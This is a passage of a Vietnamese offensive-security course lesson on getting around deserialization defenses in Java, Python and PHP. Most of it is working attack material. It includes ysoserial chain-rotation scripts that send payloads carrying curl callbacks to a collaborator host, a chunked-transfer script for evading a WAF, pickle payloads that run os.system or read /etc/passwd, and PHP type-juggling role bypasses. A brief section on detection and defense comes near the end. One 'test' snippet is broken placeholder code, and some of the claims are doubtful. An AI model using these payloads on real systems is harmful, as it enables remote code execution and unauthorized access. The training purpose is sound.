

> **Prerequisites**: [[05-ysoserial-commons-collections|05. ysoserial & CC]], [[08-python-pickle-rce|08. Python Pickle RCE]]
> **Objectives**:
> - Bypass Java SerialKiller / NotSoSerial blacklist filter
> - Evade WAF signature-based detection của serialized payloads
> - Bypass PHP type juggling protection trong unserialization
> - Bypass Python RestrictedUnpickler với whitelist class pivot
>
---

## Tổng quan Bypass Landscape

Khi các defenses được triển khai, attacker cần tìm cách bypass:

| Defense | Bypass Strategy |
|---------|----------------|
| Java SerialKiller blacklist | Dùng chain không dùng blacklisted classes |
| Java ObjectInputFilter whitelist | Tìm whitelisted class với dangerous behavior |
| PHP `allowed_classes` | Không bypass được nếu triển khai đúng |
| Python RestrictedUnpickler | Pivot qua allowed module có exec/eval |
| WAF signature detection | Encoding, chunking, alternative chains |
| PHP type juggling | Thường là bản thân bug, không cần bypass |

---

## Java SerialKiller / NotSoSerial Bypass

### SerialKiller hoạt động như thế nào?

SerialKiller là drop-in `ObjectInputStream` replacement với blacklist:

```java
// App code với SerialKiller
ObjectInputStream ois = new SerialKiller(inputStream, "/etc/serialkiller.conf");
Object obj = ois.readObject(); // SerialKiller check class name trước khi load
```

Config file:
```xml
<serialkiller>
  <blacklist>
    <regexp>org\.apache\.commons\.collections\.functors\.InvokerTransformer.*</regexp>
    <regexp>org\.apache\.commons\.collections\.functors\.InstantiateTransformer.*</regexp>
    <regexp>org\.codehaus\.groovy\.runtime\.ConvertedClosure.*</regexp>
    <!-- CC1, CC2, CC3, CC4 bị block -->
  </blacklist>
</serialkiller>
```

### Bypass Strategy: Dùng Chain Không Blacklisted

**CC6 — tại sao ít bị blacklist hơn CC1**:

CC1 dùng `InvokerTransformer` (thường bị blacklist). CC6 dùng `TiedMapEntry` và `HashSet` thay thế:

```yaml
CC6 chain:
HashSet.readObject()
  → HashMap.hash(key)
  → TiedMapEntry.hashCode()
  → LazyMap.get()
  → ChainedTransformer.transform()
  → InvokerTransformer (cuối chain)
```

Nếu `InvokerTransformer` bị blacklist → CC6 cũng fail. Lúc đó dùng `CommonsBeanutils1`:

```bash
# CommonsBeanutils1 không dùng InvokerTransformer
java -jar ysoserial-all.jar CommonsBeanutils1 "id" | base64 -w0

# Hoặc ROME (RSS library)
java -jar ysoserial-all.jar ROME "id" | base64 -w0

# Groovy (nếu có Groovy)
java -jar ysoserial-all.jar Groovy1 "id" | base64 -w0
```

### Bypass bằng cách thử tất cả chains

```bash
#!/bin/bash
# bypass_test.sh — thử từng chain, check OOB callback
TARGET="http://target.htb/"
COLLAB="your.collab.net"

CHAINS=(
  "CC6"
  "CommonsBeanutils1"
  "ROME"
  "Groovy1"
  "Spring1"
  "Spring2"
  "BeanShell1"
  "C3P0"
  "FileUpload1"
)

for chain in "${CHAINS[@]}"; do
  echo "[*] Testing: $chain"
  java -jar ysoserial-all.jar "$chain" \
    "curl http://$COLLAB/$chain" 2>/dev/null | base64 -w0 > /tmp/test_chain.txt

  HTTP_CODE=$(curl -s -o /dev/null -w "%{http_code}" \
    "$TARGET" -H "Cookie: session=$(cat /tmp/test_chain.txt)")
  echo "    HTTP $HTTP_CODE"
  sleep 0.5
done

echo "[*] Check Burp Collaborator for callbacks"
```

### ObjectInputFilter Bypass (Whitelist)

JDK 9+ có `ObjectInputFilter` — whitelist approach:

```java
// Strict whitelist
ObjectInputFilter filter = ObjectInputFilter.Config.createFilter(
    "com.company.app.SafeClass;java.lang.String;java.util.List;!*"
);
ois.setObjectInputFilter(filter);
```

Nếu whitelist quá hẹp → không bypass được. Nếu whitelist include dangerous class (ví dụ Spring context classes) → tìm gadget trong những class đó:

```bash
# Nếu spring-context trong whitelist
# Spring1/Spring2 chain có thể work
java -jar ysoserial-all.jar Spring1 "id" | base64 -w0
```

---

## WAF Bypass

### WAF signature patterns thường gặp

WAF thường detect:
- Base64 decode → contains `AC ED 00 05`
- Cookie value matches `rO0A[A-Za-z0-9+/=]+`
- Request body có `InvokerTransformer` (class name trong stream)
- PHP cookie có `O:` prefix

### Bypass 1: Encoding Variations

```bash
# Java — URL encode base64
java -jar ysoserial-all.jar CC6 "id" | base64 -w0 | \
  python3 -c "import sys,urllib.parse; print(urllib.parse.quote(sys.stdin.read()))"

# Java — Double base64
java -jar ysoserial-all.jar CC6 "id" | base64 -w0 | base64 -w0

# Java — Hex encode
java -jar ysoserial-all.jar CC6 "id" | xxd -p | tr -d '\n'

# PHP — URL encode serialized string
php -r "echo urlencode(serialize(\$obj));"
```

### Bypass 2: Chunked Transfer

WAF thường check full request. Chunked transfer encoding split payload:

```bash
# Python script gửi chunked
python3 << 'EOF'
import socket

PAYLOAD = "rO0ABXN..."  # full base64 payload
TARGET = ("target.htb", 80)

# Chia payload thành chunks
CHUNK_SIZE = 50
chunks = [PAYLOAD[i:i+CHUNK_SIZE] for i in range(0, len(PAYLOAD), CHUNK_SIZE)]

s = socket.socket()
s.connect(TARGET)

# Gửi headers
header = f"POST /api/session HTTP/1.1\r\nHost: {TARGET[0]}\r\nTransfer-Encoding: chunked\r\n\r\n"
s.send(header.encode())

# Gửi từng chunk
for chunk in chunks:
    s.send(f"{len(chunk):x}\r\n{chunk}\r\n".encode())

# Chunk cuối
s.send(b"0\r\n\r\n")
response = s.recv(4096)
print(response.decode())
EOF
```

### Bypass 3: Alternative Class Names

Nếu WAF block specific class names trong serialized stream:

```bash
# Dùng chain không chứa InvokerTransformer trong stream
java -jar ysoserial-all.jar CommonsBeanutils1 "id" | base64 -w0
# CommonsBeanutils1 dùng BeanComparator thay InvokerTransformer

# URLDNS không có RCE class names
java -jar ysoserial-all.jar URLDNS "http://test.com" | base64 -w0 | \
  xxd | grep -i "invoke"  # thường không thấy "invoke" string
```

---

## Python RestrictedUnpickler Bypass

### Anatomy của RestrictedUnpickler

```python
import pickle, io

ALLOWED = {
    ('builtins', 'set'),
    ('builtins', 'frozenset'),
    ('collections', 'OrderedDict'),
    ('datetime', 'datetime'),
}

class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if (module, name) not in ALLOWED:
            raise pickle.UnpicklingError(f"Blocked: {module}.{name}")
        return super().find_class(module, name)
```

### Bypass 1: Tìm `exec`/`eval` trong allowed modules

Nếu `builtins.exec` hoặc `builtins.eval` không bị blacklist explicitly:

```python
import pickle, io

# Test: nếu (builtins, exec) không trong blacklist
payload = b'\x80\x02c__builtin__\nexec\n(S\'__import__("os").system("id")\'\ntR.'
# Hoặc protocol 4:
payload = pickle.dumps(
    type('X', (), {
        '__reduce__': lambda s: (exec, ("import os; os.system('id')",))
    })()
)
```

### Bypass 2: `__reduce_ex__` thay `__reduce__`

```python
import pickle

class Bypass:
    def __reduce_ex__(self, protocol):
        import os
        return (os.system, ("id",))

data = pickle.dumps(Bypass())
# RestrictedUnpickler thường chỉ override find_class
# __reduce_ex__ vẫn được gọi nếu không có extra checks
```

### Bypass 3: BUILD opcode để modify existing object

```python
# Nếu một allowed class có dangerous __setstate__:
# Craft payload dùng BUILD opcode để call __setstate__ với attacker data

# Ví dụ: nếu datetime.datetime trong whitelist
import pickle, struct

# datetime.__reduce__ trả về (datetime, bytes)
# Dùng BUILD để thêm state manipulation
# (Cần phân tích cụ thể class được whitelist)
```

### Bypass 4: Arbitrary code qua allowed combination

```python
# Nếu ('builtins', 'getattr') + ('builtins', 'open') trong whitelist
# Chain: getattr(open('/etc/passwd'), 'read')()

import pickle

class ReadFile:
    def __reduce__(self):
        return (
            eval,  # nếu eval allowed
            ("open('/etc/passwd').read()",)
        )
```

---

## PHP Type Juggling Bypass

PHP type juggling xảy ra khi dùng loose comparison (`==`) thay strict (`===`):

```php
// Vulnerable code
$cookie = unserialize(base64_decode($_COOKIE['data']));
if ($cookie->role == "admin") {  // loose comparison
    // privileged action
}
```

**Bypass với boolean**:

```php
<?php
class User {
    public $role;
}
$u = new User();
$u->role = true;  // boolean true == "admin" → true!
echo base64_encode(serialize($u));
// → Tzo0OiJVc2VyIjoxOntzOjQ6InJvbGUiO2I6MTt9
```

**Bypass với integer 0**:

```php
// PHP 7.x: 0 == "any_string" → true (PHP < 8.0)
$u->role = 0;
// 0 == "admin" → true trong PHP 7.x!
```

**PHP 8.0 fix**: `0 == "admin"` là `false` trong PHP 8.0+. Nhưng `true == "admin"` vẫn `true`.

---

## Cây quyết định



---

## Command Cheatsheet

**SerialKiller bypass — chain rotation**

```bash
COLLAB="your.collab.net"
for chain in CC6 CommonsBeanutils1 ROME Groovy1 Spring1 BeanShell1 C3P0; do
  java -jar ysoserial-all.jar $chain "curl http://$COLLAB/$chain" 2>/dev/null \
    | base64 -w0 > /tmp/chain_$chain.txt
  echo "[*] $chain: $(wc -c < /tmp/chain_$chain.txt) bytes"
done
```

**WAF encoding bypass**

```bash
# URL-encode
java -jar ysoserial-all.jar CC6 "id" | base64 -w0 | python3 -c "import sys,urllib.parse; print(urllib.parse.quote(sys.stdin.read().strip()))"

# Double base64
java -jar ysoserial-all.jar CC6 "id" | base64 -w0 | base64 -w0

# Hex
java -jar ysoserial-all.jar CC6 "id" | xxd -p | tr -d '\n'
```

**Python RestrictedUnpickler test**

```python
# Test what's allowed
import pickle, io
for module, name in [
    ('builtins', 'exec'), ('builtins', 'eval'), ('builtins', 'open'),
    ('os', 'system'), ('subprocess', 'Popen'), ('importlib', 'import_module')
]:
    class T:
        def __reduce__(self):
            return (super().__class__.__module__, None)
    # Send raw GLOBAL opcode
    payload = pickle.loads.__module__  # placeholder — test manually
    print(f"Testing {module}.{name}...")
```

---

## Daily Drill

**Thời gian**: 15 phút/ngày trong 5 ngày.

**Drill 1 — Chain rotation từ bộ nhớ**
Mục tiêu: biết thứ tự priority của chains để thử khi SerialKiller active.

Thứ tự: `CC6 → CommonsBeanutils1 → ROME → Groovy1 → Spring1 → BeanShell1`

Luyện cho đến khi: nhớ thứ tự này mà không cần cheatsheet.

**Drill 2 — Encoding payload nhanh**

```bash
# Encode 3 cách trong 60 giây:
java -jar ysoserial-all.jar CC6 "id" > /tmp/raw.bin
base64 -w0 < /tmp/raw.bin               # standard base64
base64 -w0 < /tmp/raw.bin | python3 -c "import sys,urllib.parse; print(urllib.parse.quote(sys.stdin.read()))"  # url-encoded
xxd -p < /tmp/raw.bin | tr -d '\n'      # hex
```

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **SerialKiller**: `org.nibblesec.agents.SerialKiller` exception trong logs — attacker đang bị blocked
> **WAF**: High volume của requests với similar base64-like cookies — scanner activity
> **Alt chains**: Unexpected class names trong deserialization logs — CommonsBeanutils, ROME
>
> **Nếu bị attacked**: Tăng SerialKiller blacklist; thêm whitelist-based ObjectInputFilter; monitor outbound TCP từ JVM
>
> [!note] Defense-in-Depth
> Không chỉ dựa vào SerialKiller — nó là blacklist, luôn có gap. Kết hợp: SerialKiller + ObjectInputFilter whitelist + network egress filtering + process monitoring
>
---

## Lab Thực hành

| Platform | Machine | Kỹ thuật |
|----------|---------|---------|
| PortSwigger | **Bypassing a blacklist on Java deserialization** | SerialKiller bypass workflow |
| HTB | Bất kỳ Java deser machine | Thử tất cả chains có hệ thống |
| Local | SerialKiller Docker setup | Test bypass trong environment có blacklist |

---

## Field Manual Entry

> [!abstract] Bypass Techniques — Quick Reference
> **SerialKiller bypass order**: CC6 → CommonsBeanutils1 → ROME → Groovy1 → Spring1
> **WAF bypass**: URL-encode base64; chunked transfer; hex encoding; alternative chains
> **PHP type juggling**: Gửi `b:1` (boolean true) thay string khi loose comparison `==`
> **Python RestrictedUnpickler**: Test nếu `builtins.exec`/`eval` allowed → pivot; thử `__reduce_ex__`
> **Cuối cùng**: Nếu tất cả fail → custom gadget chain từ source (bài 06)
> **Ref**: [[11-bypass-techniques|11. Bypass Techniques]]